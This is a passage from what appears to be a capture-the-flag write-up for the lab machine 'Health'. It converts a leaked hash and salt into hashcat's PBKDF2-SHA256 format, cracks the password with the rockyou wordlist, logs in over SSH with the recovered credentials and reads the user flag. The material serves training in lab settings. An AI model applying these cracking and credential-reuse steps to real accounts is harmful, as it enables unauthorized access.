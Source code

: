     
    
    oxdf@hacky$ echo "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37" | xxd -r -p | base64 -w0
    ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
    box/health-10.10.11.176]$ echo -n "sO3XIbeW14" | base64
    c08zWEliZVcxNA==
    

I also need to know the number of rounds. ChatGPT tells me:

![image-20230106173945860](https://0xdfimages.gitlab.io/img/image-20230106173945860.png)

The resulting hash is:

    
    
    sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
    

Passing that to `hashcat` cracks it with `rockyout.txt` in a less than a
minute:

    
    
    $ hashcat susanne.hash /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    10900 | PBKDF2-HMAC-SHA256 | Generic KDF
    ...[snip]...
    sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15
    

### SSH

With susanne’s username and password, I might as well try SSH, and it works:

    
    
    oxdf@hacky$ sshpass -p february15 ssh susanne@health.htb
    ...[snip]...
    susanne@health:~$
    

And I can read `user.txt`:

    
    
    susanne@health:~$ cat user.txt
    3306ec8d************************
    

## Shell as root

### Enumeration

#### Web

